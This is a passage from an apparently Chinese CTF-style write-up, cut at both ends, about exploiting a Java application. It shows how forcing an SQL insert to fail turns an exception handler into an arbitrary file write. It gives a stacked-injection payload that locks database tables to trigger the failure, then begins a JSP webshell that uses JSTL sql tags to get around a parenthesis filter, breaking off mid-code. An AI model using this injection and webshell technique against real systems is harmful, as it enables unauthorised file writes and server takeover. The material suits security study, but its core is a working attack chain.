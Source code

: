 >         }
> 
>         return true;
>     } catch (IOException var14) {
>         var14.printStackTrace();
>         var4 = false;
>     } finally {
>         if (fw != null) {
>             try {
>                 fw.flush();
>                 fw.close();
>             } catch (IOException var13) {
>                 var13.printStackTrace();
>             }
>         }
> 
>     }
> 
>     return var4;
> }
> ```
>
> 那么思路就清晰起来了，只要报异常，就能以**username**为内容，**password**为文件名来实现任意文件写
>
> 但是过滤了`(`就很伤，没有办法调用方法
>
> 所以到这里时，需要解决两个问题：
>
> - 让sql报错，进入catch异常，实现任意文件写
>
> - 不用括号，读取数据库内容
>
> 接着我们来一一解决
>
> 首先看看要让其报错的语句
>
> ```PHP
> String sql = "insert into app_query_log(username,password) values(?,?);";
> ```
>
> 很明显是一个插入语句，怎么才能失败呢，有几种方法
>
> 1.修改app_query_log表，让username为主键，重复插入时会报异常。
>
> 2.删除app_query_log表，找不到要插入的表，报异常
>
> 3.锁表
>
> 我们这里使用比较优雅的方式，就是锁表来实现
>
> 第一步，先锁表，禁止更新的情况下，插入会报异常。
>
> ```Python
> username=a\&password=;flush tables with read lock;%23
> ```
>
> 第二步，写入jsp文件，由于过滤了括号，这时候只能使用jstl标签来执行，完美避开了括号
>
> 下面是标签执行sql语句并回显的小马
>
> ```Java
> <%@ page language="java" contentType="text/html; charset=UTF-8"
>     pageEncoding="UTF-8"%>
> <%@ taglib uri="http://java.sun.com/jsp/jstl/sql" prefix="sql"%>
